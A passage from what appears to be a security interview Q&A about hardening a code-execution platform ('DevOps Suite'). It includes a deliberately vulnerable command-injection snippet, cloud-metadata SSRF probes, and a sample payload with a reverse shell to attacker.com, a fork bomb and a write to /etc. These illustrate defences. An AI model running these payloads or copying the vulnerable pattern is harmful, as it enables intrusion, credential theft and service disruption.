  "timestamp": "2026-10-01T14:00:00Z",
  "status": 401,
  "error": "Unauthorized",
  "message": "Invalid email or password"
}
```

---

### 🟡 Intermediate Level

#### Q4: How did you design the authentication system to withstand brute force and credential stuffing attacks?
**Answer:**
DevOps Suite implements a multi-tiered defense against brute force attacks:



1. **Sliding-Window Rate Limiting (Redis-backed):**
   `RateLimitFilter.java` evaluates requests to `/api/auth/**` before they hit the controller or database. Using Redis sorted sets with timestamp scores, each client IP is limited to **20 requests per minute**. If an attacker attempts to run a dictionary attack, requests are throttled at the filter level with HTTP `429 Too Many Requests`.
2. **High BCrypt Cost Factor:**
   Passes use `BCryptPasswordEncoder(12)`. The cost factor of 12 requires $4,096$ iterations of key expansion. A modern CPU takes ~250–350ms to calculate a single hash. Even if an attacker bypassed the rate limiter, they could only test roughly 3 passwords per second per CPU core, rendering offline or online brute force computationally expensive.
3. **Account Locking Thresholds:**
   Failed attempts can be tracked in Redis (`login:failures:{email}`). After 5 consecutive failures within 15 minutes, the account is temporarily locked for 15 minutes, preventing further password verification.
4. **Timing Attack Resistance:**
   If a user is not found, `AuthService` can perform a dummy BCrypt calculation against a static hash to ensure execution time is uniform, preventing attackers from identifying valid accounts via response time deltas.

---

#### Q5: How does DevOps Suite prevent Command Injection when running arbitrary user code in Docker containers?
**Answer:**
The platform executes user-submitted code in multiple programming languages (Python, Java, JavaScript, C++). 

**The Vulnerability:**
Command injection occurs when untrusted user input is concatenated into a system shell string:
```java
// VULNERABLE EXAMPLE: DO NOT USE
String cmd = "docker run my-sandbox python -c \"" + userCode + "\"";
Runtime.getRuntime().exec(cmd); // User code containing quotes and ';' can escape and execute host commands
```

**The DevOps Suite Solution (`DockerSandbox.java`):**
DevOps Suite bypasses host shell interpreters entirely by using the programmatic **Docker Java Client API** (`com.github.docker-java`):
1. **Isolated File Staging:** User code is written directly to a temporary file in a quarantined directory or passed via an in-memory tar stream.
2. **Defensive Argument Arrays:** Container entrypoints and commands are passed as distinct array arguments, not a concatenated string:
   ```java
   CreateContainerCmd containerCmd = dockerClient.createContainerCmd(imageName)
       .withNetworkMode("none")
       .withCmd("python", "/sandbox/main.py")
       .withHostConfig(hostConfig);
   ```
3. **No Shell Execution:** Because the Docker daemon executes the binary (`python`) directly via the Linux `execve()` system call, arguments are treated as literal byte strings. Shell metacharacters (`|`, `&`, `;`, `$`, `>`, `<`) have no operational effect.
4. **Immutable Filesystem:** The root filesystem is set to `--read-only`. Any injected command attempting to write to system directories (`/etc`, `/usr`, `/bin`) fails with an I/O permission error.

---

#### Q6: How is Two-Tier Access Control (RBAC) enforced across the backend and WebSocket channels?
**Answer:**
DevOps Suite operates on a two-tier authorization model:

1. **Tier 1: Global Platform Roles:**
   Managed via Spring Security's `SecurityFilterChain` in `SecurityConfig.java`:
   - `ROLE_ADMIN`: Can access global management APIs (`/api/admin/**`), Prometheus metrics, and system configuration.
   - `ROLE_USER`: Can access standard authenticated endpoints (`/api/projects/**`, `/api/tasks/**`).

2. **Tier 2: Project-Scoped Roles:**
   Enforced at the service layer via database entities (`ProjectMember` with roles `OWNER`, `ADMIN`, `MEMBER`, `VIEWER`).
   ```java
   @Transactional
   public TaskResponse updateTask(Long projectId, Long taskId, TaskUpdateRequest request) {
       User currentUser = authService.getCurrentAuthenticatedUser();
       ProjectMember member = projectMemberRepository.findByProjectIdAndUserId(projectId, currentUser.getId())
           .orElseThrow(() -> new AccessDeniedException("User is not a member of this project"));
       
       if (member.getRole() == ProjectRole.VIEWER) {
           throw new AccessDeniedException("Viewers cannot modify project tasks");
       }
       
       // Proceed with task mutation
   }
   ```

3. **WebSocket Real-Time Authorization (`StompAuthChannelInterceptor.java`):**
   Standard HTTP filters do not inspect individual WebSocket frames after the initial handshake. DevOps Suite registers a custom STOMP channel interceptor:
   ```java
   @Override
   public Message<?> preSend(Message<?> message, MessageChannel channel) {
       StompHeaderAccessor accessor = StompHeaderAccessor.wrap(message);
       if (StompCommand.SUBSCRIBE.equals(accessor.getCommand())) {
           String destination = accessor.getDestination(); // e.g., /topic/tasks/42
           Long projectId = extractProjectId(destination);
           Authentication user = (Authentication) accessor.getUser();
           
           if (!projectService.isUserMemberOfProject(user.getName(), projectId)) {
               throw new AccessDeniedException("Unauthorized subscription to project channel");
           }
       }
       return message;
   }
   ```
   This prevents unauthorized clients from listening to project task updates or code execution logs.

---

### 🔴 Advanced Level

#### Q7: How does DevOps Suite mitigate Server-Side Request Forgery (SSRF) in both code execution and OAuth2 integration?
**Answer:**
SSRF occurs when an attacker induces the server-side application to make HTTP requests to an unintended destination, such as internal loopback interfaces or cloud metadata endpoints.

**1. Mitigating SSRF in Code Execution (`DockerSandbox.java`):**
The most dangerous SSRF vector in a developer platform is user code executed in the IDE sandbox. A malicious script could query the host's private cloud metadata service:
```python
import requests
# Attempting to steal AWS instance profile IAM tokens
r = requests.get("http://169.254.169.254/latest/meta-data/")
```
Or probe the internal Docker network:
```python
# Probing internal Postgres database or Redis cache
r = requests.get("http://postgres:5432")
```
**Mitigation:** DevOps Suite sets `--network=none` on every sandbox container. This instructs the Linux kernel to create the container within a fresh network namespace with no virtual ethernet pairs (`veth`) attached to the Docker bridge. The container has no network interfaces other than loopback (`127.0.0.1`), rendering any outbound socket connection attempt (`TCP/UDP`) dead on arrival with `ENETUNREACH` (Network is unreachable).

**2. Mitigating SSRF in OAuth2 Integration:**
During third-party OAuth2 flows (Google, GitHub), an attacker might manipulate the `redirect_uri` parameter to redirect authorization codes to an arbitrary internal or external server.
**Mitigation:**
In `application.yml` and `OAuth2AuthenticationSuccessHandler.java`, callback URIs are strictly validated against a static whitelist:
```yaml
app:
  oauth2:
    authorized-redirect-uris:
      - http://localhost:5173/oauth2/redirect
      - https://devopssuite.company.com/oauth2/redirect
```
Any authorization request containing an unrecognized redirect URI is rejected before exchanging tokens.

---

#### Q8: How do you prevent secrets from leaking into Git, and how does DevOps Suite manage secrets across development and production?
**Answer:**
Secret leakage is addressed through multiple layers of defense:



1. **Source Code Hygiene:**
   - `.gitignore` explicitly ignores `.env`, `*.secret`, `*.pem`, `id_rsa`, and local override YAML files (`application-local.yml`).
   - `.env.template` is committed with variable names and descriptions, but zero live secrets:
     ```env
     POSTGRES_DB=devopssuite
     POSTGRES_USER=devopssuite_app
     POSTGRES_PASSWORD=replace_with_strong_password
     JWT_SECRET=replace_with_hex_64_character_secret
     ```
   - Automated pre-commit hooks (using tools like `gitleaks` or `trufflehog`) scan staged commits for high-entropy strings and known API key signatures.

2. **Decoupled Spring Boot Configuration:**
   `application.yml` uses Spring property placeholders rather than static strings:
   ```yaml
   spring:
     datasource:
       password: ${POSTGRES_PASSWORD}
     security:
       oauth2:
         client:
           registration:
             google:
               client-secret: ${GOOGLE_CLIENT_SECRET}
   jwt:
     secret: ${JWT_SECRET}
   ```
   At runtime, Docker Compose or Kubernetes injects these variables from protected external secrets stores (e.g., AWS Secrets Manager, Vault, or encrypted CI/CD secrets).

3. **Log Sanitization & Actuator Hardening:**
   - Logback configuration strips or masks sensitive field names (`password`, `token`, `secret`, `authorization`) using regex replacement.
   - Spring Boot Actuator's `/actuator/env` endpoint is either disabled or configured with `management.endpoint.env.keys-to-sanitize=password,secret,key,token` so that credentials cannot be dumped via HTTP.

---

#### Q9: How does the sliding-window rate limiter in `RateLimitFilter.java` protect the backend from denial-of-service and credential stuffing?
**Answer:**
DevOps Suite utilizes a **Redis-backed Sliding-Window Counter** rather than a naive fixed-window counter to eliminate burst spikes at window boundaries.

**The Fixed Window Flaw:**
In a fixed 1-minute window allowing 100 requests, an attacker can send 100 requests at 00:59 and another 100 requests at 01:00, achieving 200 requests within a 2-second span.

**The Sliding-Window Implementation:**
`RateLimitFilter.java` uses Redis sorted sets (`ZSET`):
1. **Key Pattern:** `rate:{tier}:{identity}:{bucket}` (e.g., `rate:auth:192.168.1.50` or `rate:api:user_123`).
2. **Algorithm Execution (Lua Script / Transactional Pipeline):**
   - The current Unix timestamp in milliseconds ($T_{now}$) is acquired.
   - Remove elements older than the window duration:
     `ZREMRANGEBYSCORE key 0 (T_now - windowSizeMs)`
   - Count the remaining elements in the set:
     `ZCARD key`
   - If count is less than the maximum allowed limit:
     - Add the current timestamp as both member and score:
       `ZADD key T_now T_now`
     - Set TTL to the window duration:
       `EXPIRE key (windowSizeSeconds)`
     - Allow request to proceed.
   - If count $\ge$ limit:
     - Reject request immediately with HTTP `429 Too Many Requests`.
     - Include header: `Retry-After: <seconds_until_oldest_element_expires>`.

```java
// Conceptual flow inside RateLimitFilter.java
long now = System.currentTimeMillis();
long windowStart = now - (60 * 1000); // 1 minute window

redisTemplate.execute(new SessionCallback<>() {
    public Object execute(RedisOperations operations) {
        operations.multi();
        operations.opsForZSet().removeRangeByScore(key, 0, windowStart);
        operations.opsForZSet().zCard(key);
        operations.opsForZSet().add(key, UUID.randomUUID().toString(), now);
        operations.expire(key, Duration.ofMinutes(1));
        return operations.exec();
    }
});
```
This guarantees an accurate rate measurement over any sliding 60-second window.

---

### ⚫ Expert Level

#### Q10: What comprehensive security measures would you implement before deploying DevOps Suite to a public, production-grade cloud environment?
**Answer:**
Deploying a multi-tenant platform with arbitrary code execution into production requires a defense-in-depth posture spanning infrastructure, container runtimes, networking, and application security:



1. **Sandboxing Isolation (Replace `runc` with `gVisor` / Firecracker):**
   Standard Docker containers share the host Linux kernel. A Linux kernel privilege escalation exploit (e.g., Dirty COW, Dirty Pipe) can break out of container namespaces.
   - Configure Docker to use Google's **gVisor (`runsc`)** or AWS **Firecracker microVMs** as the container runtime for `DockerSandbox.java`. gVisor intercepts all guest syscalls in user space, presenting a virtualized kernel surface and preventing kernel exploits from compromising the physical host.
   - Enforce a custom **Seccomp** profile blocking syscalls unnecessary for code execution (`ptrace`, `sys_chroot`, `keyctl`).

2. **Network Perimeter & WAF Hardening:**
   - Deploy **Cloudflare** or **AWS WAF** in front of Nginx to mitigate Layer 7 DDoS attacks, terminate TLS with managed certificates, and enforce rate limits before traffic reaches application servers.
   - Isolate PostgreSQL, Redis, and Elasticsearch inside private VPC subnets with zero public IP assignment. Only the Nginx/Spring Boot backend possesses security group ingress.

3. **Hardened Identity & Access Governance:**
   - Implement **Multi-Factor Authentication (MFA)** via TOTP (Time-Based One-Time Passwords) or FIDO2/WebAuthn hardware keys.
   - Enforce short-lived credentials with automated rotation (e.g., HashiCorp Vault injecting dynamic PostgreSQL credentials valid for 1 hour).
   - Implement Mutual TLS (`mTLS`) for all service-to-service and backend-to-database connections.

4. **Runtime Threat Detection with eBPF:**
   - Deploy **Falco** on Kubernetes/Docker nodes to monitor runtime system calls via eBPF probes. Falco generates real-time alerts if any container attempts unexpected binary execution, privilege escalation, or unauthorized file modification.

5. **Static & Dynamic Security Testing (SAST/DAST):**
   - Integrate automated static code analysis (SonarQube, Semgrep) and software composition analysis (Snyk, OWASP Dependency-Check) into GitHub Actions.
   - Run regular automated dynamic scans (OWASP ZAP) against staging environments to detect regressions in headers, cookies, and CORS policies.

---

#### Q11: Walk through how a malicious payload submitted to the IDE's `/api/execute` endpoint is neutralized at every stage of the execution lifecycle.
**Answer:**
Consider an attacker who submits the following malicious Python payload:
```python
import os, socket, subprocess
# Fork bomb + reverse shell + host filesystem tampering attempt
os.system("touch /etc/hacked.txt")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("attacker.com", 4444))
while True: os.fork()
```

The diagram and steps below trace how DevOps Suite systematically neutralizes this attack:



1. **Authentication & Authorization Gate:**
   - `RateLimitFilter` checks the client's execution tier quota.
   - `JwtRequestFilter` validates the bearer token.
   - `ExecutionService` verifies that the user holds at least `MEMBER` permissions for the associated project. Viewers or unauthenticated callers are rejected immediately.
2. **Queueing & Concurrency Throttle:**
   - The payload is dispatched to `ExecutionQueueWorker`. If the attacker floods 50 concurrent requests, the queue caps concurrent executions to avoid CPU starvation for other tenants.
3. **Filesystem Isolation Neutralization (`touch /etc/hacked.txt`):**
   - The container is launched with `--read-only`. The host root filesystem is completely invisible to the container via mount namespaces.
   - When `os.system("touch /etc/hacked.txt")` executes, the Linux kernel returns `EROFS: Read-only file system`. The command fails without mutating state.
4. **Network Neutralization (`socket.connect`):**
   - The container runs with `--network=none`. It has no default gateway, DNS server, or routing table.
   - The TCP connection attempt fails instantly with `ENETUNREACH` (Network is unreachable). No reverse shell can be established.
5. **Denial of Service / Fork Bomb Neutralization (`while True: os.fork()`):**
   - The container is constrained by Linux cgroups:
     - `pids-limit=64`: The container can spawn a maximum of 64 processes. Upon reaching 64, `fork()` calls return `-1 (EAGAIN: Resource temporarily unavailable)`.
     - `--memory=256m`: If the process attempts to allocate memory maliciously, the Linux Out-Of-Memory (OOM) killer terminates the process.
     - `--cpus=1.0`: The host CPU scheduler restricts container threads to a single core, ensuring the host and other containers remain responsive.
6. **Watchdog Termination & Cleanup:**
   - `DockerSandbox.java` spawns a background watchdog timer. If the container runs longer than 30 seconds, `dockerClient.killContainerCmd(id).exec()` forcefully terminates it (`SIGKILL`).
   - The container is purged with `removeContainerCmd(id).withForce(true).exec()`. No persistent state, files, or dangling processes remain.

---

#### Q12: How are WebSocket STOMP connections secured against unauthorized subscription eavesdropping and CSRF?
**Answer:**
Standard Spring Security configurations often protect the initial HTTP `/ws` handshake endpoint while leaving the underlying STOMP channels vulnerable to unauthorized access:

1. **Securing the Handshake:**
   - The initial SockJS HTTP connection (`/ws`) requires an authenticated JWT. 
   - Because standard browser WebSocket APIs do not support custom HTTP headers (such as `Authorization: Bearer <token>`), the frontend passes the token as a query parameter or inside the STOMP `CONNECT` frame headers.
   - `SecurityConfig.java` permits the initial `/ws/**` handshake only if the token query param validates against `JwtUtils`.

2. **Securing Topic Subscriptions via Channel Interceptors:**
   Once connected, a client can send STOMP frames requesting to subscribe to any topic:
   ```stomp
   SUBSCRIBE
   id:sub-0
   destination:/topic/tasks/105
   ```
   If unvalidated, any authenticated user could eavesdrop on project 105's real-time events.
   DevOps Suite registers `StompAuthChannelInterceptor.java` inside `WebSocketConfig.java`:
   ```java
   @Configuration
   @EnableWebSocketMessageBroker
   public class WebSocketConfig implements WebSocketMessageBrokerConfigurer {
       @Autowired
       private StompAuthChannelInterceptor stompAuthChannelInterceptor;

       @Override
       public void configureClientInboundChannel(ChannelRegistration registration) {
           registration.interceptors(stompAuthChannelInterceptor);
       }
   }
   ```
   The interceptor inspects every `SUBSCRIBE` frame:
   ```java
   @Component
   public class StompAuthChannelInterceptor implements ChannelInterceptor {
       @Autowired
       private ProjectMemberRepository memberRepo;

       @Override
       public Message<?> preSend(Message<?> message, MessageChannel channel) {
           StompHeaderAccessor accessor = MessageHeaderAccessor.getAccessor(message, StompHeaderAccessor.class);
           
           if (StompCommand.SUBSCRIBE.equals(accessor.getCommand())) {
               String dest = accessor.getDestination();
               Principal user = accessor.getUser();
               
               if (dest != null && dest.startsWith("/topic/tasks/")) {
                   Long projectId = Long.parseLong(dest.substring("/topic/tasks/".length()));
                   boolean isMember = memberRepo.existsByProject_IdAndUser_Email(projectId, user.getName());
                   if (!isMember) {
                       throw new AccessDeniedException("Access denied to project topic");
                   }
               }
           }
           return message;
       }
   }
   ```

3. **CSRF Protection on WebSockets:**
   - WebSocket handshakes are vulnerable to Cross-Site WebSocket Hijacking (CSWSH), where an attacker's site triggers a WebSocket connection leveraging ambient browser credentials.
   - DevOps Suite sets `setAllowedOriginPatterns` to explicitly whitelisted domains. Handshake requests originating from external origins are rejected by the server before upgrading the connection to WebSocket protocol.

---

## Quick Reference: Core Security Hardening Rules

| Domain | Hardening Standard | Verification Mechanism |
|---|---|---|
| **Passwords** | BCrypt cost factor 12 | `new BCryptPasswordEncoder(12)` in `SecurityConfig.java` |
| **JWT Access Tokens** | HMAC-SHA256, 1h expiration, Redis revocation blacklist | `JwtUtils.java` + `RateLimitFilter.java` |
| **Database Queries** | 100% Parameterized JPA/Hibernate queries | 0 instances of `Statement.execute()` or string concatenation |
| **Docker Sandboxes** | `--network=none`, `--read-only`, `--memory=256m`, `--cpus=1.0` | `DockerSandbox.java` host config verification |
| **Sandboxed Execution Timeout** | Strict 30-second watchdog timer | Scheduled `killContainer` watchdog thread |
| **Rate Limiting** | Auth endpoints: 20 req/min; API endpoints: 100 req/min | Redis sliding-window sorted set counter |
| **Admin Dashboards** | Grafana (:8080) and Kibana (:8083) behind Nginx Basic Auth | `nginx/admin-proxy.conf` proxy pass blocks |
| **Schema Integrity** | Flyway V1-V16 with SHA-256 checksum tracking | Application startup validation failure on mismatch |
| **HTTP Security Headers** | HSTS (1 yr), X-Frame-Options DENY, X-Content-Type-Options nosniff | Injected via Nginx perimeter & Spring Security filters |
| **Container Base Images** | Alpine-based minimal JRE (`eclipse-temurin:21-jre-alpine`) | Dockerfile multi-stage production builds |
